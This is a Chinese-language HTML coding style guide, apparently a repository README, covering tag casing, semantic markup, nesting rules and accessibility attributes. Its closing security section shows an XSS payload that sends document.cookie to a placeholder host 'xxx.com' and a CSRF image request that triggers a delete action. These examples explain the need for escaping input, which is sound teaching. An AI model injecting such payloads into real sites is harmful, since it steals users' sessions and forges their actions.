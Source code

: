 #HTML编码规范

## [1.书写规范](#guide)

* 只使用小写，包括标签名、属性名、属性值(一些可以自定义的字符串属性值除外)

```html
<!-- 不推荐 -->
<A HREF="/">Home</A>

<!-- 推荐 -->
<img src="google.png" alt="Google">
```

* 为每个块级元素或表格元素标签新起一行，并且对每个子元素进行缩进

* 确保你的IDE使用的是UTF-8编码来保存文件的，在定义页面的编码时使用 `<meta charset="utf-8">`

* 文档类型: `<! DOCTYPE html>`

* 使用规范化的html

* 使用语义化的html标签，根据用途来选择标签

* 把多媒体元素可知化。像图片、视频、动画等多媒体元素，要有相关的文字来体现其内容，比如<img>可以使用`alt`属性来说明其图片内容

```html
<!-- 不推荐 -->
<img src="sheet.png">

<!-- 推荐 -->
<img src="sheet.png" alt="screenshot".>

```

* 确保页面的结构、样式、行为三者相分离。确保文档或模板中只包含`html`, 把用到的样式都写到样式表文件中，把脚本文件都写到`js`文件中。

```html
<!DOCTYPE html>
<html>
<head lang="en">
    <meta charset="UTF-8">
    <title></title>
    <link rel="stylesheet" href="http://fonts.googleapis.com/css?family=Open+Sans:300,400,700"/>
</head>
<body>
    <span href="#" class="button" id="toggle-login">Log in</span>
</div>
    <script src="http://code.jquery.com/jquery-2.1.3.js"></script>
</body>
</html>
```

## [2.最佳实践](#practice)

### 2.1 保持标签闭合

```html
<!-- bad -->
<li>Some text here
<li>Some new text

<!-- good -->
<ul>
    <li>Some text here</li>
</ul>
```
### 2.2 尽量不要使用内联样式

```html
<!-- bad -->
<p style="color:#ccc">An example to illustrate inline style in html</p>

<!-- good -->
<p class="html_bp">An example to illustrate inline style in html</p>
```

### 2.3 使用连续的标题

```html
<!-- bad -->
<h1>This is the topmost heading</h1>
<h3>This is a sub_heading underneath the topmost heading</h3>

<!-- good -->
<h1>This is the topmost heading</h1>
<h2>This is a sub_heading underneath the topmost heading</h2>
```

### 2.4 在合适的地方使用合适的标签
HTML标签是构造规范内容结构的关键。例如 `<em>` 标签用来强调重点内容。 `<p>`标签适用于突出文章段落。如果想要在段落间加空行,就不要使用`<br/>`

```html
<!-- bad -->
<p>段落1<br/>
段落2</p>

<!-- good -->
<p>段落1</p>
<p>段落2</p>
```

### 2.5 为图片标签添加alt属性

```html
<!-- bad -->
<img id="logo" src="images/bgr_logo.png"/>

<!-- good -->
<img id="logo" src="images/bgr_logo.png" alt="Tom - Web Development"/>
```

### 2.6 添加适当的title属性
```html
<!-- bad -->
<a href="javascript:;">go away</a>

<!-- good -->
<a href="javascript:;" title="go away">go away</a>
```


### 2.7 不要滥用`<br/>`

```html
<!-- bad -->
<span>abcde</span>
<br/>
<em>def</em>

<!-- good -->
<p>
Here's an interesting fact about corn
</p>
```

### 2.8 IE兼容模式
```html
<!--推荐-->
<meta http-equiv="X-UA-Compatible" content="IE=Edge">
```

### 2.9 对于Boolean类型的标签属性，可以不用赋值
```html
<!--推荐-->
<input type="checkbox" name="" id="" checked>
checked属性可以不用写checked="checked"
```

### 2.10 标签嵌套规范
1) 块元素可以包含内联元素或某些块元素, 但内联元素却不能包含块元素, 它只能包含其它的内联元素
```html
<!--good-->
<div>
    <span></span>
</div>

<!--bad-->
<span>
     <div></div>
 </span>
```

2) p元素不能包含块元素
```html
<!--good-->
<p>
    <span></span>
</p>
<div>
    <p></p>
</div>

<!--bad-->
<p>
    <div></div>
</p>
<p>
    <ul>
        <li></li>
    </ul>
</p>
```

## [3.安全](#safe)
### 3.1 XSS(Cross Site Scripting)
对于任何用户输入的内容，如果会显示在页面上，就需要做HTML的标签转义

比如聊天信息，或者用户评论，用户输入如下内容：
```js
我的评论<script>alert("弹窗")</script>
```
```js
//在正常的站点(a.com)输入如下评论, domain = a.com
我的评论<script>
var cookies = document.cookie, img = new Image();
img.src = 'http://xxx.com/?cookies='+encodeURIComponent(cookies);
document.body.appendChild(img);
</script>
```

### 3.2 CSRF(Cross-site request forgery)
CSRF与XSS有些类似，不过CSRF主要是利用权限管理的漏洞，如果登录会话在浏览器关闭前一直保持，其它用户可以通过构造URL的方式跨站伪造用户请求。

CSRF的防范点主要在后端，但CSRF的漏洞利用是在浏览器端。

```js
//在第三方的网站(b.com)插入对正常网站(a.com)的请求, domain = b.com
var img = new Image();
img.src = 'http://a.com/?action=delete&id=xxx';
document.body.appendChild(img);
```

## [4.参考文档](#reference)
- [dyygtfx/FeCodeGuide](https://github.com/dyygtfx/FeCodeGuide)
- [tsq/front-end-principles](https://github.com/tsq/front-end-principles/)